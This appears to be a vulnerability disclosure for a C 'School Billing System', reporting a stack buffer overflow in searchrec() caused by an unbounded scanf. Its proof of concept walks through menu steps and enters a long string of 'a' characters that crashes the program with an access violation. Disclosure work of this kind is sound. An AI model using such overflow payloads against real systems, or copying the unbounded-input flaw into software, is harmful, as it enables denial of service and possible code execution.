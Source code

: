 #  SCHOOL_BILLING_SYSTEM stack overflow in searchrec function 



## supplier

[School Billing System In C Programming With Source Code - Source Code & Projects](https://code-projects.org/school-billing-system-c-programming-source-code/)



## Vulnerability file

Unbounded Stack Buffer Overflow via `scanf("%[^\n]",name);` in `searchrec()`



## describe

A stack-based buffer overflow vulnerability exists in the `searchrec()` function of the  School Billing System . The vulnerability allows attackers to cause a denial of service (DoS) and potentially execute arbitrary code through careful memory manipulation.



**Code analysis**

In the `searchrec()` function,  it is possible to enter data into the name variable without a limit on the length. Causing a stack overflow.



![image-20250417095720995](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417095720995.png)



## POC

input username and password

![image-20250417095833469](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417095833469.png)



enter 1 after  ' Enter Your Account Type :- '

![image-20250417095852405](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417095852405.png)



choose 1 "1>> Add Student's Record"

![image-20250417095922057](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417095922057.png)



enter payload to cause the stack overflow to crash

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417100025012](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100025012.png)



then,fill in some random numbers below and press esc

![image-20250417100045218](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100045218.png)



enter 1 after  ' Enter Your Account Type :- '

![image-20250417100158572](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100158572.png)



choose 2 " Search Student's Record"

![image-20250417100217799](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100217799.png)



choose 1 " 1>>Search by name::"

![image-20250417100325597](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100325597.png)



enter payload to cause the stack overflow to crash

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417100423515](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100423515.png)



then,input again 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417100458271](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100458271.png)



result

we can see EXCEPTION_ACCESS_VIOLATION.

![image-20250417100524202](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417100524202.png)